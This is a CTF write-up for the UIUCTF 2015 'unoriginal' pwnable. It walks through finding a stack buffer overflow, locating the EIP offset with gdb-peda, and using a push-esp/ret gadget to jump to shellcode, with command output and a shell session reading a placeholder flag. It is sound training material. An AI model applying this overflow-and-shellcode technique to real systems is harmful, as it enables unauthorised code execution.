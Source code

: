 # UIU CTF 2015: unoriginal

**Category:** Pwnable
**Points:** 100
**Solves:** 22
**Description:** 

> PWN: Ah, but this challenge at unoriginal.uiuc.sexy port 1235 is so [unoriginal](unoriginal) :( .

## Write-up

by [polym](https://github.com/abpolym)

This writeup is based on following writeups:

* <https://gist.github.com/emyei/5f60c733761573b760d2>

### Meta

* Stack Buffer Overflow `sbo`, `jump to register`

We are given a i386 32bit non-stripped ELF for Linux:

```bash
$ file unoriginal 
unoriginal: ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.32, BuildID[sha1]=05553bc7eda7c492d2a2fead35eccc12d746fff7, not stripped
```

Running it:

```bash
$ ./unoriginal 
Hack the Planet!
hello?
```

We can provide input after the initial banner `Hack the Planet!`.

`checksec`:

```bash
gdb-peda$ checksec 
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : disabled
```

Everything is turned off - so we can e.g. provide shellcode to the stack to be executed! Good news (for us)!

Let's try to provide some more input and check for a Stack Buffer Overflow:

```bash
$ p -c 'print "A"*0x500' | ./unoriginal 
Hack the Planet!
Segmentation fault (core dumped)
```

Bingo! Let's have a closer look with `ltrace`:

```bash
$ p -c 'print "A"*0x500' | ltrace -s 256 -f ./unoriginal 2> /tmp/out
Hack the Planet!
$ cat /tmp/out 
[pid 2387] __libc_start_main(0x8048449, 1, 0xffc026a4, 0x8048480 <unfinished ...>
[pid 2387] puts("Hack the Planet!")                                                                                                                                                                                           = 17
[pid 2387] read(0, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 256) = 256
[pid 2387] --- SIGSEGV (Segmentation fault) ---
[pid 2387] +++ killed by SIGSEGV +++
```

Ok looks like the binary reads `256` bytes from our input with `read`.

Let's create a pattern with size `256` with `gdb-peda`:

```bash
gdb-peda$ pattern_create 256
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAnAASAAoAATAApAAUAAqAAVAArAAWAAsAAXAAtAAYAAuAAZAAvAAwAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%b'
```

And provide it to the binary while executing it with `strace`:

```bash
$ echo -n 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAnAASAAoAATAApAAUAAqAAVAArAAWAAsAAXAAtAAYAAuAAZAAvAAwAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%b' | strace -s 256 -f ./unoriginal 2>/tmp/out 
Hack the Planet!
Segmentation fault (core dumped)
$ cat /tmp/out 
execve("./unoriginal", ["./unoriginal"], [/* 32 vars */]) = 0
[ Process PID=2435 runs in 32 bit mode. ]
brk(0)                                  = 0x97de000
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
mmap2(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xfffffffff77d7000
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
fstat64(3, {st_mode=S_IFREG|0644, st_size=117029, ...}) = 0
mmap2(NULL, 117029, PROT_READ, MAP_PRIVATE, 3, 0) = 0xfffffffff77ba000
close(3)                                = 0
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib32/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\1\1\1\0\0\0\0\0\0\0\0\0\3\0\3\0\1\0\0\0\300\233\1\0004\0\0\0\204\214\32\0\0\0\0\0004\0 \0\n\0(\0C\0B\0\6\0\0\0004\0\0\0004\0\0\0004\0\0\0@\1\0\0@\1\0\0\5\0\0\0\4\0\0\0\3\0\0\0\264\207\26\0\264\207\26\0\264\207\26\0\23\0\0\0\23\0\0\0\4\0\0\0\1\0\0\0\1\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\4H\32\0\4H\32\0\5\0\0\0\0\20\0\0\1\0\0\0\320Q\32\0\320Q\32\0\320Q\32\0\354,\0\0\254X\0\0\6\0\0\0\0\20\0\0\2\0\0\0\250m\32\0\250m\32\0\250m\32\0\360\0\0\0\360\0\0\0\6\0\0\0\4\0\0\0\4\0\0\0t\1\0\0t\1\0\0t\1\0\0D\0\0\0D\0\0\0\4\0\0\0\4\0\0\0\7\0\0\0\320Q\32\0\320Q\32\0"..., 512) = 512
fstat64(3, {st_mode=S_IFREG|0755, st_size=1742588, ...}) = 0
mmap2(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xfffffffff77b9000
mmap2(NULL, 1747580, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0xfffffffff760e000
mmap2(0xf77b3000, 12288, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x1a5000) = 0xfffffffff77b3000
mmap2(0xf77b6000, 10876, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0xfffffffff77b6000
close(3)                                = 0
mmap2(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xfffffffff760d000
set_thread_area(0xff8e4b50)             = 0
mprotect(0xf77b3000, 8192, PROT_READ)   = 0
mprotect(0xf77f9000, 4096, PROT_READ)   = 0
munmap(0xf77ba000, 117029)              = 0
fstat64(1, {st_mode=S_IFCHR|0620, st_rdev=makedev(136, 4), ...}) = 0
mmap2(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xfffffffff77d6000
write(1, "Hack the Planet!\n", 17)      = 17
read(0, "AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAnAASAAoAATAApAAUAAqAAVAArAAWAAsAAXAAtAAYAAuAAZAAvAAwAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%b", 256) = 256
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x41414341} ---
+++ killed by SIGSEGV (core dumped) +++
```

We can see in the second-last line in `si_addr` the overwritten RIP causing the Segmentation Fault, `0x41414341`.

Having the endianess in mind, we convert this address back to a string `ACAA` and look for the offset and thus the length needed to overwrite `EIP` using `gdb-peda`'s `pattern_offset`:

```bash
gdb-peda$ pattern_offset ACAA
ACAA found at offset: 17
```

So we have to provide `17` bytes to overwrite `EIP`.

Testing it again:

```bash
$ p -c 'import sys; sys.stdout.write("A"*17+"BBBB")'                                                                                                                                                                                                                                                                                                                 
AAAAAAAAAAAAAAAAABBBB$ p -c 'import sys; sys.stdout.write("A"*17+"BBBB")' | strace -s 256 -f ./unoriginal 
execve("./unoriginal", ["./unoriginal"], [/* 32 vars */]) = 0
[...]
read(0, "AAAAAAAAAAAAAAAAABBBB", 256)   = 21
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x42424242} ---
+++ killed by SIGSEGV (core dumped) +++
Segmentation fault (core dumped)
```

`si_addr` is indeed `0x42424242` == `BBBB`.

We can control `EIP` now. However, we need to redirect `EIP` to a valid, executable stack address, which we can't leak.

So that means we have to redirect `EIP` to static addresses in the binary (starting with `0804....`), which leaves us with the option `ROP`.

Our goal, as in [this challenge](https://github.com/ctfs/write-ups-2015/blob/f8e2f4b7159b774e694357dba83559687a46ffb0/nullcon-hackim-2015/exploit-1/README.md) is to find a gadget allowing us to either let `EIP` jump to the current stack position without having to provide any valid stack address.

[This writeup](https://gist.github.com/emyei/5f60c733761573b760d2) found a `push esp; nop; <...>; nop; mov ebx, [esp]; ret` gadget, which leads to this solution:

* Overwrite `EIP` with the address of the gadget, `0x8048350`
* Right after that, provide our shellcode
* After a `ret` from the current function calling `read` is executed, `EIP` will jump to the gadget, executing it
* `esp`, in the meantime, will point to our shellcode
* The gadget essentially pushes the current stack pointer `esp` address to the stack
* After a unnecessary `mov ebx, [esp]`, `ret` is executed, forcing `EIP` to jump to whatever `esp` is currently pointing to
* Our shellcode is thus executed, providing us with a shell!

[This python script](./solve.py) does the job:

```bash
K$ p solve.py 
[+] Started program './unoriginal'
[*] Switching to interactive mode
$ ls f*
flag.txt
$ cat flag.txt
flag{actually_the_flag_is_unknown}
$ ^D
[*] Stopped program './unoriginal'
```

PS: TODO or FIX is that it doesn't work remotely.

## Other write-ups and resources

* <https://gist.github.com/emyei/5f60c733761573b760d2>
* <http://pastebin.com/UZrf2RJ5>